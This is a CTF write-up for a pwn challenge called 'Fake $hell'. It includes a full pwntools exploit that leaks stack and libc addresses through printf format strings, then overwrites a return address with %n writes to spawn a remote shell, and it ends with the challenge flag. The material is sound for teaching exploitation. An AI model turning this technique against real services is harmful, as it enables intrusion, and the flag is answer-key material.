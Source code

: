 # Fake $hell

![alt challenge](./fakeshell.jpg)

### Description
```
While learning programming, I wrote a small fake terminal in C, it's very simple very few
supported commands, and only safe operations (no unsafe system() calls for example).
It is accessible at: terminal.challs.shellmates.club:1337

Goal: Prove you can escape from the fake shell to the real shell.
```
```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    PIE enabled
```
Here is the ![Terminal](./terminal) binary and the ![libc](./libc-2.27.so) files.<br>
When we connect using netcat and check the supported commands, we find these eight commands<br>
```
mate@pwnable:/ $ help
Supported commands
ls	id	whoami	echo	printf
cat	pwd	cd	help	exit
mate@pwnable:/ $
```
good, we can use printf() to leak addresses to bypass ASLR and write anywhere in memory<br>
by looking at the decompiled binay with ghidra we find an interessting function process_cmd()<br>
which executes the parced command and return, we will overwrite its return address to spawn<br>
a shell using one gadget:<br>
```
$ one_gadget libc-2.27.so 
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
in this ![python script](./exploit.py) i leaked rbp to calculate the address of the format string<br>
and libc_start_main (the return address of main) to calculate the address of one gadget at run time<br>
```python
#!/usr/bin/env python2
from pwn import *
from time import sleep


one_gadget_offset = 0xe87f5

while True:
    sleep(2)
    try:
        s = remote ('terminal.challs.shellmates.club', 1337)
    except:
        continue
    #leaking rbp and calculating the return address
    payload = 'printf %8$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    ret  = int(s.recv(12), 16) - 0x418
    ret1 = p64(ret)
    ret2 = p64(ret + 2)
    ret3 = p64(ret + 4)
    log.info('return address: '+ str(hex(ret)))

    #leaking libc_start_main address and calculating one gadget address
    payload = 'printf %141$lp'
    s.sendline(payload)
    s.recvuntil('0x')
    libc_start_main = int(s.recv(12), 16)
    one_gadget = libc_start_main + one_gadget_offset
    log.info('one gadget address: '+ str(hex(one_gadget)))

    #calculating lenght for %n to overwrite the return address with one gadget
    length1 = (one_gadget & 0xffff) - 1
    length2 = (one_gadget >> 16 & 0xffff) - length1 -1
    length3 = (one_gadget >> 32 & 0xffff) - length1 - length2 -1

    #to construct the address two bytes at the time, the lengths have to be from smaller to bigger
    if (length2 < 0) or (length3) < 0:
        log.info('bad address, try again.')
        s.close()
        continue


    #overwriting the return address with one gadget address
    payload  = 'printf a'
    payload += '%' + str(length1) + 'd'
    payload += '%16$n'
    payload += '%' + str(length2) + 'd'
    payload += '%17$n'
    payload += '%' + str(length3) + 'd'
    payload += '%18$nh'
    payload  = payload.ljust(0x30, '\0')
    payload += ret1 + ret2 + ret3

    #the constraint of one gadget is [rsp+0x70] == NULL
    payload  = payload.ljust(0x400, '\0')

    s.sendline(payload)
    s.interactive()
    s.close()
```
# Flag
```
$ cat flag.txt
shellmates{f4ke_term1nal_r3al_pr1%ntf!}
$
```

